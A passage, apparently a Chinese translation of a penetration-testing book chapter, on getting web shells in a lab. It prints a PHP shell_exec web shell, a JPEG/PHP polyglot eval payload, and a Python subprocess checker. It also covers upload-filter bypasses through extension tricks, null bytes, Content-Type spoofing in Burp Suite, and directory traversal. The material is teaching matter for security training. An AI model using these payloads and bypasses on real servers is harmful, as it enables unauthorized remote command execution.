# 第六章：6 获得 Web Shell


现在你已经理解了 bash shell 的强大功能，黑客发现爆破 shell 令人兴奋应该不再感到惊讶。*爆破 shell* 这个词描述了任何攻击的结果，即黑客获得了对系统 shell 的本地或远程访问权限，然后向其发送执行指令。

有许多方法可以获得对远程系统的 shell 访问权限，每种方法都针对不同的入口点。例如，你可以通过 web 应用程序漏洞获得远程 shell，或者通过暴力破解服务器上的系统账户，或者通过利用网络服务中的漏洞，如 FTP 或 Server Message Block。

这些远程 shell 可能与在 Kali 上运行的 bash shell 不同，因为它们通常带有有限的界面和功能，并且没有提升的权限。尽管如此，获得对另一台计算机的 shell 访问权限通常是执行一些最具破坏性的网络攻击的第一步。

在本章中，我们将探讨通过使用 *web shell* 获得初步访问权限的这种流行方法：web shell 是一种恶意脚本，它为未授权访问 web 服务器提供接口。为了实现这一点，我们将利用 *文件上传漏洞*，允许你将 web shell 上传到易受攻击的网站。

我们还将通过 *操作系统命令注入* 获得初步访问权限：这是一种允许通过将操作系统命令注入到 web 应用程序表单字段中来实现远程代码执行的漏洞。到本章结束时，你将获得对两个实验室服务器的初步访问权限，并开发自定义的 bash 脚本与底层系统进行交互。

## 任意文件上传漏洞

*任意文件上传漏洞* 是 web 应用程序中相当常见的安全缺陷。它允许用户上传不应该接受的文件类型，通常是由于配置不当或文件验证与限制控制措施不完善导致的。

举个例子，以下存在漏洞的 HTML 通过 HTTP POST 请求接受用户上传的文件，并将上传的文件移动到指定的目标目录，而不验证文件的类型、大小或名称。因此，攻击者可以上传任何文件，包括脚本、可执行文件或其他恶意内容到服务器的 *uploads* 目录。

```
<html>
<head>
    <title>File Upload Form</title>
</head>
<body>
    <form action="" method="POST" enctype="multipart/form-data">
        <h2>Upload File</h2>
        <input type="file" name="uploaded_file">
        <input type="submit" name="submit" value="Upload">
    </form>
</body>
</html>

<?php
if($_SERVER["REQUEST_METHOD"] == "POST"){
    $filename = $_FILES["uploaded_file"]["name"];
    move_uploaded_file($_FILES["uploaded_file"]["tmp_name"], "uploads/" . $filename);
    echo "Your file was uploaded successfully.";
}
?> 
```

为了利用这个漏洞，攻击者可能会上传一个包含 PHP: 超文本预处理器（PHP）web shell 负载的文件，通常具有 . *php* 扩展名。web shell 代码会为攻击者提供一个在目标系统上执行命令的接口。以下是此类 web shell 负载的简化示例：

```
<?php
$output = shell_exec($_GET['cmd']) ;
echo $output;
?> 
```

shell_exec() 函数允许 Web 应用程序从 PHP 脚本中执行 Shell 命令。它提供了一种与服务器或操作系统命令行环境交互的方式。当 shell_exec() 被调用并传入一个命令作为参数时，它将在系统 Shell 中执行该命令，并以与应用程序上下文相同的用户（通常是 *www-data*、*apache* 或 *nginx*）返回输出。有效载荷将通过 HTTP GET 请求的 cmd 参数执行发送到它的命令。

如果 PHP Web Shell 的文件名是 *webshell.php*，攻击者可以通过访问以下 URL 在 Web 浏览器中访问它：*http://target-site.com/uploads/webshell.php*。Web Shell 中的 PHP 代码可能会在服务器上执行，从而为攻击者提供一个接口，以便在系统上执行命令。通过 cmd URL 查询参数，攻击者可以例如使用 ls 列出服务器上的文件：*http://target-site.com/uploads/webshell.php?cmd=ls*。如果浏览器访问此 URL，可能会在目标系统上执行命令并将响应显示在浏览器中。

Kali 在 */usr/share/webshells* 目录下有多种语言的内建 Web Shell 列表。或者，你也可以在 *[`github.com/nicholasaleks/webshells.git`](https://github.com/nicholasaleks/webshells.git)* 找到 Web Shell。

### 针对任意文件上传的模糊测试

开发和执行 Web Shell 并不像我们刚才探讨的 PHP 示例那样简单。通常，你需要绕过一些常见的控制措施，这些措施用于防止任意文件上传。让我们转到实验环境，探索识别这些漏洞的工具。

识别上传漏洞的一种方法是使用自动化的 Web 应用扫描工具。在第五章中，我们使用 dirsearch 查找允许文件上传的端点和功能。我们的扫描结果显示，*p-web-01* 机器（172.16.10.10）在 *http://172.16.10.10:8081/upload* 上有一个文件上传页面。图 6-1 显示了当你访问此 URL 时，Kali Firefox 浏览器应该返回的内容。



图 6-1：p-web-01 机器上的文件上传器

如你所见，网页告诉我们它只接受 *.jpg*、*.jpeg*、*.gif* 和 *.png* 后缀的文件。通过手动测试，我们可以验证该应用程序是否确实执行了这一要求。

然而，为了将正确的 Web Shell 有效载荷上传到目标，我们必须先进行侦察。没有一种“万能”有效载荷可以适用于所有语言、Web 应用程序、框架和平台。

在前面的章节中，对 *p-web-01* 进行的扫描告诉我们，Web 应用程序使用 Python，并且运行 Flask，这是一种用 Python 编写的 Web 框架。让我们尝试上传一个针对 Python 的 Web Shell。首先，下载 *python-webshell-check.py* 测试文件。

> 注意

*你可以在此章节的文件中找到相关内容* [`github.com/dolevf/Black-Hat-Bash/blob/master/ch06`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch06)。

现在查看文件的内容，以便更好地理解我们上传时它应该如何工作：

```
import subprocess
result = subprocess.check_output('id', shell=True)
print(result.decode('utf-8')) 
```

这个 Python 脚本使用导入的 subprocess 模块来在底层操作系统上执行一个 bash 命令。我们在 subprocess.check_output() 函数中硬编码了 id bash 命令，该命令会在一个子进程中执行并捕获其输出。shell=True 参数允许通过 shell 执行命令，使得可以使用特定于 shell 的函数和语法。最后，我们将命令的结果从字节类型解码为字符串并打印到控制台。当执行时，这段代码应该能检索运行该 Web 应用程序的用户的用户和组信息。

不幸的是，正如你在 图 6-2 中看到的那样，我们无法将 Python 文件上传到网络应用程序中。为了自己检查这一点，点击 **选择文件**，浏览到保存的 Web Shell，然后点击 **上传**。



图 6-2：文件类型上传错误

在接下来的章节中，你将学习到几种文件上传绕过技术，你可以利用这些技术避开限制，并有可能执行代码。

### 绕过文件上传控制

为了防止任意文件上传，开发者通常使用验证函数。这些函数可以验证文件的大小、扩展名及其他属性。然而，黑客可以利用一些常见的技术绕过这些文件上传控制。我们来看看其中的一些技术。

#### accept 属性修改

开发者在文件输入元素中使用 accept HTML 属性来指定浏览器允许用户选择上传的文件类型。默认情况下，该属性根据文件的扩展名或多用途互联网邮件扩展（MIME）类型来限制文件。例如，以下 HTML 代码使用 accept 属性只允许特定的文件扩展名：

```
<input type="file" name="file" **accept=".jpeg, .jpg, .gif, .png"**>
```

但由于这个属性是在客户端设置的，攻击者可以轻松绕过控制，欺骗应用程序接受具有不同扩展名或 MIME 类型的文件。我们可以通过使用浏览器开发者工具来修改 accept 属性。

默认情况下，ACME Hyper Branding 网络应用程序并没有使用 accept 属性来控制文件上传输入。为了更好地理解这个控制是如何工作的，尝试修改客户端 HTML 来包括该属性，如 图 6-3 所示。



图 6-3：使用开发者工具修改 accept 属性

如果你再次尝试上传文件，你应该会注意到 Kali 文件浏览器不会显示不支持的文件类型。然而，你可以轻松地在接受属性中附加另一个文件扩展名，如*.py*，或者通过使用通配符(*)值来告诉它接受所有文件扩展名。然后，web shell 有效载荷应该会出现在文件浏览器中。

单凭这项技术可能无法绕过文件上传控制，特别是如果 web 应用程序实施了服务器端验证和适当的文件类型检查。让我们考虑一些绕过服务器端控制的方法。

#### 文件扩展名修改

我们可以尝试通过将恶意 web shell 有效载荷的文件扩展名更改为应用程序允许的扩展名来上传它。例如，将恶意脚本从*webshell.php*重命名为*webshell.jpg*，可能会绕过仅允许上传图像文件的文件扩展名检查。

我们可以尝试将*python-webshell-check.py*的文件扩展名更改为类似*python-webshell-check.jpg*的文件，然后测试*p-web-01* web 应用程序的上传功能。使用以下 bash 命令复制并重命名文件：

```
$ **cp python-webshell-check.py python-webshell-check.jpg**
```

当我们尝试上传恶意脚本时，文件应该会成功上传，如图 6-4 所示。



图 6-4：通过更改文件扩展名成功上传恶意脚本

我们现在可以在服务器上执行脚本吗？在第五章中，我们发现了 web 应用程序的*/uploads*目录。让我们通过浏览器访问该目录，方法是导航到*[`172.16.10.10:8081/uploads`](http://172.16.10.10:8081/uploads)*。你应该会收到图 6-5 中的错误信息。



图 6-5：ACME Hyper Branding /uploads 目录错误信息

看起来我们需要将文件名作为参数添加到 URL 中。尝试将*python-webshell-check.jpg*附加到这个*/uploads* URL 端点的末尾，然后访问它。

浏览器请求应该会成功，并且文件应自动下载。我们可以通过检查下载文件的内容来验证恶意脚本的完整性是否被服务器保持。运行以下 bash 命令：

```
$ **cat ~/Downloads/python-webshell-check.jpg**

import subprocess

# Basic python webshell checker
result = subprocess.check_output('id', shell=True)

print(result.decode('utf-8')) 
```

然而，web 应用程序不会执行 Python 文件或运行 id shell 命令。相反，它会忽略文件内容，当我们访问文件的完整 URL 路径时，将其作为下载提供。

为了执行恶意代码，我们很可能需要依赖应用程序或服务器端代码中的其他漏洞，这些漏洞可能导致文件上传处理不当、验证不足或错误解释文件内容。通过利用这些漏洞，我们可能能够欺骗服务器将上传的文件当作脚本或可执行文件执行。

该技术的另一种变体是使用*双扩展名*，攻击者将第二个扩展名附加到文件后，以绕过文件类型检查。例如，我们可以尝试将*webshell.php*重命名为*webshell.php.jpg*。这种技巧可能能够绕过只检查文件扩展名最后部分或完全依赖文件扩展名来确定文件类型的控制。

#### 恶意多用途文件

*多用途文件*是一种有趣的文件类型，不同的应用程序以不同的方式解析它们。这种多样性源自它们利用各种文件格式的特定结构和解析规则。

创建多用途文件的一种方法是通过操控*文件头部*，也叫做*文件签名*或*魔术字节*，这些通常位于文件的开头。操作系统和应用程序通常使用文件头部来识别文件的类型，以便正确解释其数据。

恶意的多用途文件有可能规避验证文件扩展名或内容类型的安全措施。通过巧妙地创建文件头部，我们可以欺骗系统将文件当作无害文件处理，而实际上它们包含有害内容。

作为示例，我们来看看 JPEG 图像文件的头部。通常，JPEG 文件以标准的魔术字节签名 FF D8 FF E0 开头，后面跟着附加的字节：

```
**FF D8 FF E0** 00 10 4A 46 49 46 00 01
```

我们可以通过巧妙地将 JPEG 魔术字节附加到 PHP Webshell 代码后，来伪装成一个无害的图像文件，如下所示：

```
$ **echo -e "\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x00\x01<?php**
**eval($_GET['cmd'];?>" > polyglot.php** 
```

这个 bash 命令创建了一个恶意的*polyglot.php*文件，初始字节表明它是一个 JPEG 文件。但在这些字节之后，我们引入了 PHP 代码。注入将执行一个使用 cmd 查询参数的 eval()函数。你可以使用 polyglot.php 命令来确认文件类型是 JPEG 图像数据文件。

许多工具和库可以帮助我们操控图像文件头部。例如，像 HxD、Hex Fiend 和 Bless 这样的十六进制编辑器，或像 libjpeg 和 libpng 这样的库。强大的 ImageMagick 和 ExifTool 命令行工具也能操控多种图像文件格式。

恶意多用途文件要生效必须满足某些条件。首先，当用户上传文件时，服务器必须将其解释为图像并成功保存。其次，当用户请求该文件时，生成响应的 PHP 解释器必须将该文件识别为脚本并进行处理。在某些情况下，文件可能需要带有.*php*扩展名才能触发 PHP 处理。

#### 其他绕过技巧

在本节中，我们将简要提到几种你可以尝试的其他绕过技巧。

*空字节注入*，也称为*空字节注入攻击*或*空字符注入*，用于操控依赖于空字符终止字符串的文件处理系统。这种技术利用了空字节\x00 的存在，它标志着在多种编程语言中字符串的结束。

这种攻击将空字节注入到文件名字符串中，导致文件名被截断，可能会导致意外行为。例如，攻击者可以将 *webshell.php* 重命名为 *webshell.jpg%00.php*，在 * .jpg* 扩展名后注入空字节的 URL 编码表示。当服务器处理文件名时，它可能会将其解释为 *webshell.jpg*，未意识到空字节和随后的 * .php* 扩展名的存在。然而，当服务器稍后处理文件时，它可能将文件作为 PHP 脚本读取并执行 web shell。

*Content-Type 头部操作*，也称为 *MIME 类型伪造*，是一种通过操控文件上传过程中发送的 HTTP 请求中的 Content-Type 头部来绕过文件上传控制的技术。通过将头部更改为允许的内容类型，我们可以潜在地绕过服务器端的文件检查。攻击者将使用类似 Burp Suite 的 HTTP 拦截代理捕获他们的上传请求，并在请求到达服务器之前操作 Content-Type 头部。

现在我们已经介绍了一些技术，可以在实验环境中探索它们，尝试上传并执行 web shell。

### 使用 Burp Suite 上传文件

我们将利用 Burp Suite 操控 Content-Type HTTP 头部，利用 *p-web-01* 服务器上的任意文件上传漏洞进行攻击。Burp Suite 是一个由 PortSwigger 开发的流行安全测试工具，它使我们能够轻松操控发送到 web 应用程序的流量，并查看它们返回的响应。

Burp Suite 在 Kali 中预装。通过点击 Kali 机器菜单栏的左上角并搜索 **burp suite** 启动它。这将打开 Burp Suite 图形用户界面（GUI）在一个独立的窗口中。如果这是你第一次启动该应用程序，它会提示你选择许可证类型和你希望运行的项目文件类型。创建一个使用默认设置的临时项目。

接下来，通过导航到 **代理** 标签页打开 Burp Suite 浏览器。Burp Suite 允许你通过使用其 *代理拦截* 功能，暂时停止客户端与远程 web 应用程序之间的所有流量。当前我们不需要启用此选项，因此请确保它的开关按钮设置为 **拦截关闭**，如 图 6-6 所示。



图 6-6：Burp Suite 代理页面

接下来，点击**打开浏览器**。这将启动 Burp Suite 内部的基于 Chromium 的浏览器，并将其流量代理到当前运行的 Burp Suite 实例。我们将使用这个浏览器对 web 应用程序发起初步攻击。通过访问 *http://172.16.10.10:8081*，导航到 *p-web-01* web 应用程序。

现在，使用 Burp Suite 浏览器访问 */upload* URL 端点。如果你导航到 Burp Suite 的 **目标** 标签，你应该会看到类似于 图 6-7 中显示的目录结构。点击左侧导航窗格中的上传链接，查看 HTTP GET 请求和响应的详细信息。



图 6-7：Burp Suite 的目标标签页

尝试使用 Burp Suite 浏览器上传原始的 *python-webshell-check.py* 文件，并检查生成的流量。你应该会看到“文件类型不允许！”的错误信息。在 Burp Suite 中，它应该如 图 6-8 所示。



图 6-8：Burp Suite 中捕获的请求和响应流量

在左侧的请求窗格中，我们可以清楚地看到发送到 */upload* 端点的 HTTP POST 请求。它包含了主机、来源和头部信息，但我们将重点关注请求的主体，其中包含文件名、内容类型以及文件内容本身：

```
------WebKitFormBoundary
Content-Disposition: form-data; name="file"; **filename="python-webshell-check.py"**
**Content-Type: text/x-python**

import subprocess

# Basic python webshell checker
result = subprocess.check_output('id', shell=True)

print(result.decode('utf-8'))

------WebKitFormBoundary 
```

我们希望更改 `Content-Type` 头部的值，因此我们将这个请求转发到 Burp Suite 的*Repeater*，这是一个用于操作 HTTP 请求和响应的工具。Repeater 允许我们在重新发送请求到 Web 应用程序之前，修改 HTTP 请求的任何部分。要将请求发送到 Repeater，只需右键点击请求窗格并选择 **发送到 Repeater**。

现在，转到 Burp Suite 中的 **Repeater** 标签，并将 `Content-Type: text/x-python` 修改为 `Content-Type: image/jpeg`。这个小的修改应该能够欺骗 Web 应用程序，让它认为我们上传的是一个 *.jpeg* 文件，而实际上我们上传的是一个 Python 文件。请注意，我们并没有修改文件名的 *.py* 扩展名。

点击位于 GUI 左上角的 **发送** 按钮并分析响应。HTML 内容中的“文件上传成功！”消息表明，`Content-Type` 操作成功绕过了文件格式控制。

现在 Web Shell 是否可以在 Web 应用程序的 */uploads* 目录中访问？尝试浏览到 URL *http://172.16.10.10:8081/uploads/python-webshell-check.py*。正如在 图 6-9 中看到的，网页以单行形式显示了 Python 文件的内容，而不是像之前那样自动作为下载提供。



图 6-9：上传到 Web 应用程序的原始 Python Web Shell

尽管我们取得了一些进展，但我们的有效载荷并没有如预期那样在 Web 应用程序中执行。我们希望 *python-webshell-check.py* 脚本执行 `id bash` 命令，并将输出通过 HTTP 响应返回给我们。在下一节中，我们将讨论通过考虑执行上下文、文件位置、访问控制以及目标 Web 框架类型来正确部署 Web Shell 的重要性。

## Web Shell 阶段

成功弹出 Shell 可能涉及技术层面的考虑，不仅仅是利用文件上传漏洞。以下是您在置备 Web Shell 时应考虑的因素：

**执行上下文** 考虑目标的编程语言、服务器配置和执行环境。例如，如果应用程序运行在 PHP 服务器上，请确保 Web Shell 代码与 PHP 语法和特性兼容。

**文件路径和位置** 通过考虑目标应用程序的目录结构、访问控制和文件包含机制，确定 Web Shell 的合适文件路径和位置。识别可写的目录和位置，以便 Web Shell 可以有效地存储和执行。例如，您可能能够上传非图片文件路径，如 */uploads*、*/files* 或 */static*，以及图片文件到 */images* 或 */imgs*。没有单一的标准，文件可以存放在开发人员希望的任何位置。识别 Web 应用程序的根目录也很重要。例如，网站通常存储在 Web 服务器的 */var/www/html* 目录下。

**访问控制和授权** 考虑应用程序中实现的任何访问控制、身份验证机制或用户角色。利用与用户角色、权限提升或身份验证相关的漏洞，可以为成功的 Web Shell 置备提供额外的机会。例如，您可能需要进行身份验证才能上传文件，即使文件之后可以被未经身份验证的用户访问。

**Web 应用程序防火墙** 诸如 Web 应用程序防火墙等安全系统可能会检测到上传常见 Web Shell 的尝试。它们还可能识别通过 HTTP 参数执行系统命令的尝试。因此，使用像 *c99.php* 或 *b374k* 这样的流行 Web Shell 可能会增加被发现和阻止的几率。其他安全系统，如端点检测与响应（EDR），可能会监视系统进程活动；如果它们检测到 Web 服务器进程尝试执行 Shell 命令，可能会触发警报或完全阻止执行。

让我们应用这些原则，置备一个有效的 Web Shell 有效负载，并完全控制 *p-web-01* Web 应用程序，以便我们可以在其上执行任何我们想要的 bash 命令。

### 查找目录遍历漏洞

尽管我们伪造了 Web Shell 的 Content-Type 头以成功绕过服务器的上传控制，但我们未能执行恶意的 Python 代码，因为我们没有在 Flask 服务器上正确置备 Web Shell。

使用 Flask 框架构建的应用程序可能包含一个名为 *app.py* 或其他类似名称的文件，该文件表示应用程序的入口点。此文件负责初始化和配置应用程序；它创建 Flask 应用程序的实例，并定义其各种路由、视图和配置。操作这个文件是执行 Flask 应用程序 Web Shell 的一种有效方式。

我们可以尝试通过上传一个篡改过的 *app.py* 文件来覆盖 *p-web-01* 网络应用程序的原文件，这个篡改版本包含一个恶意的 Web Shell 路由。然而，为了完成这个任务，我们首先需要弄清楚是否能够上传一个文件到 */uploads* 目录之外，因为 *app.py* 应该位于应用程序的父目录中，而该目录并不是 *uploads* 目录。

*目录遍历* 漏洞允许攻击者访问目标目录以外的文件或目录。这种弱点通常出现在输入参数或文件上传功能未经过正确验证和清理的情况下。为了利用目录遍历漏洞，攻击者可以构造一个恶意文件名，其中包含目录遍历序列 ../。

例如，攻击者可以上传一个文件，文件名为 *../../../../../etc/password*，从而可能修改系统的关键配置信息。一个点（.）表示当前目录，两个点（..）表示父目录。通过使用多个点点斜杠模式（../），我们基本上是在文件系统中向上导航。

如果我们可以操控输入中的文件名，我们就有可能遍历文件系统，然后将恶意的 *app.py* 文件上传到应用程序的敏感系统目录。让我们看看是否可以将文件上传到 *p-web-01* 的另一个目录中。Burp Suite 的 Target 标签显示服务器有一个 */static* 目录，用于托管像 *hero.png* 图像这样的永久资源，如 图 6-10 所示。瞄准这个静态目录将是检测服务器是否容易受到目录遍历上传攻击的一个好方法。

